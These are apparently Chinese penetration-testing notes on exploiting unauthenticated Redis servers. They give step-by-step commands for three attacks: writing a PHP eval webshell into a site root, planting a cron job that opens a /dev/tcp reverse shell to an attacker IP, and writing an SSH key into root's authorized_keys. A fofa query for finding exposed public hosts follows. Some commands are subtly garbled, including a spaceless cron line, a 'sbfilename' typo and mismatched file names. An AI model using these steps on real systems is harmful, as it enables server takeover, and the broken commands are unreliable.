 ## 未授权访问漏洞
- 未授权访问漏洞可以理解为需要安全配置或权限认证的地址, 授权页面配置不当导致其它用户可以**无需认证授权**直接访问, 从而引发重要权限可被操作, 数据库目录等敏感信息泄露
- 如果一个网站存在未授权访问漏洞, 无需密码, 只需连接对应的端口
- 常见未授权访问漏洞
	- Redis, Docker, MongoDB, Jenkins, Memcached, JBOSS, VNC, ZooKeeper, Reync, Atlassian Crowd, CouchDB, Elasticsearch, Hadoop, Jupyter Notebook

### 默认端口
- Redis: 6379
- MySQL: 3306
- Docker: 2375
- Jboss: 8080
- MongoDB: 27017
- Memcached: 11211

### 端口探测
- Railgun端口/漏洞扫描工具
- nmap端口扫描: `nmap -v -Pn -p 6379 -sV xxx.xxx.xxx.xxx`
	- -v 显示过程
	- -Pn no ping
	- -p 指定端口
	- -sV 版本探测

## Redis常用命令
- Redis是一个完全开源的高性能key-value数据库
- 应用场景
	- 取最新n个数据
	- 排行榜, 取top n个数据
	- 设置精确的过期时间
	- 计数器
	- 实时系统, 反垃圾系统
	- pub, sub发布订阅构建实时消息系统
	- 构建消息队列
	- 缓存
- 互联网公司常见应用
	- string: 缓存, 限流, 计数器, 分布式锁, 分布式session
	- hash: 存储用户信息, 用户主页访问量, 组合查询
	- list: 关注人时间轴列表, 简单队列
	- set: 赞, 踩, 标签, 好友关系
	- zset: 排行榜
- 常用命令
	- `keys *` 列出当前数据库中所有的键
	- `get anotherkey` 获取一个不存在的键的值
	- `config set dir /home test` 设置工作目录
	- `config set dbfilename redis.rdb` 设置备份文件名
	- `config get dir` 查看当前工作目录
	- `config get dbfilename` 查看当前备份文件名
	- `save` 备份
	- `flushall` 删除所有数据(慎用!!!)
	- `del key` 删除键为key的数据
- 渗透常用命令
	- `redis-cli -h host -p port -a password` 连接远程服务器
	- `set testkey "Hello World"` 设置键testkey的值为字符串Hello World
	- `get testkey` 获取键testkey的内容
	- `set score 99` 设置键score的值为99
	- `incr score` 使用INCR命令将score的值增加1
	- `get score` 获取键score的内容

### Redis历史漏洞
- 因配置不当可以未经授权访问, 攻击者无需认证就可以访问到内部数据
	1. 导致敏感信息泄露
	2. 执行flushall可清空所有数据
	3. 通过数据备份功能往磁盘写入后门文件(webshell, 定时任务)
	4. 如果Redis以root身份运行, 可以给root账户写入ssh公钥文件, 免密码登录
- 在Redis4.x之后, Redis新增了模块功能, 通过外部扩展, 可以在redis中实现一个新的Redis命令, 通过c语言编译并加载恶意.so文件, 达到代码执行的目的

## Redis未授权访问利用
1. 通过redis数据备份功能结合web服务, 往web网站根目录写入一句话木马, 从而得到Web网站权限
2. 通过reids数据备份功能写定时任务, 通过定时任务反弹shell
3. 通过redis数据备份功能写ssh公钥, 实现免密登录linux服务器

### 下载连接程序
```
wget http://download.redis.io/releases/redis-6.0.3.tar.gz #下载
tar -zxvf redis-6.0.3.tar.gz #解压
cd redis-6.0.3
make #编译
cd src/
cp redis-cli /usr/bin  #客户端连接程序
```

### 写webshell
- 向数据库写入内容为一句话木马的语句并保存成文件, 然后在网页getshell
	- 条件1: 知道网站根目录绝对路径
	- 条件2: 对目标网站根目录有写入权限
1. `redis-cli -h 192.168.xxx.xxx -p 6379` 连接redis
2. `ping` 返回"PONG"标识连接成功且存在未授权漏洞拥有权限
3. `config set dir /www/wwwroot/ThinkPHP/public` 设置工作目录
4. `config set dbfilename shell.php` 设置备份文件
5. `set x "<?php @eval($_POST['cmd']);?>" save` 设置一个名称为x的列
6. 通过Webshell管理工具连接, 获取webshell

### 写定时任务反弹shell
- 需要确定redis的用户, root权限才可以设置定时任务
- kali的定时任务在文件夹/var/spool/cron/crontabs下
1. `redis-cli -h 192.168.xxx.xxx -p 6379`
2. `set xxx "\n\n*/1****/bin/bash -i>& /dev/tcp/192.168.8.80/77770>&1\n\n"` 设置行, 每隔1分钟向本机(8.80)发送一次bash会话
3. `config set dir /var/spool/cron` 设置工作目录为定时目录路径
	1. 回显OK代表存在该目录并设置成功, 否则需要猜测其它目录
4. `config set sbfilename root` 生成备份文件
5. `save` 将设置保存, 该文件在定时目录下会自动启用
6. `nc -lvvp 7777` 使用nc命令监听该端口(7777), 等待回显

### 写ssh公钥
1. `ssh-keygen -t rsa` 生成ssh公私钥
2. `(echo -e "\n\n";cat ~/.ssh/id_rsa.pub;echo -e "\n\n") > foot.txt` 创建一个文件名为foot, 并写入公钥内容
3. `cat /foo.txt | redis-cli -h 192.168.1.200 -p 6379 -x set sshkey` 使用管道符将foot文件中的内容写到键值sshkey中, 直接连接并写入 (临时键)
4. `redis-cli -h 192.168.1.200 -p 6379` 连接redis数据库
5. `config set dir /root/.ssh/` 设置工作目录为root下的.ssh目录, 远程连接目录
6. `config set dbfilename "authorized_keys"` 设置备份文件名为authorized_keys, 在ssh连接时会读取这个文件作为公钥
7. `save` 保存键值到文件中
8. `ssh root@192.168.1.200 -i ~/.ssh/id_rsa` 使用私钥连接ssh

### 通过fofa检查公网
- 搜索: `port="6379" && country!="CN"`
- 观察搜索结果, 判断是否存在对应的漏洞
- -DENIED: 对方开启了保护模式;  -ERR: 设置了密码, 无法连接
